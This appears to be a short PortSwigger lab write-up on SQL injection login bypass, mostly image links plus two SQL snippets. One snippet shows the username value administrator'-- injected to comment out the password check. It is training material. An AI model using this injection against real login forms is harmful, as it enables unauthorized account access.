 ## Lab Description :
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/1ca7809d-f736-496e-a186-69a54e499f2e)
## Solution :
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/fadd94b7-ebef-4a7d-875c-4ca3a69bac72)
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/f2b8d3da-0a07-4ac5-a0a5-1905bedc421f)
Query made -

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'password'
```

To bypass the login, we need to comment out the password part in WHERE clause.

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/80889e38-9ae0-4b82-a7c1-a25864c2c1f7)
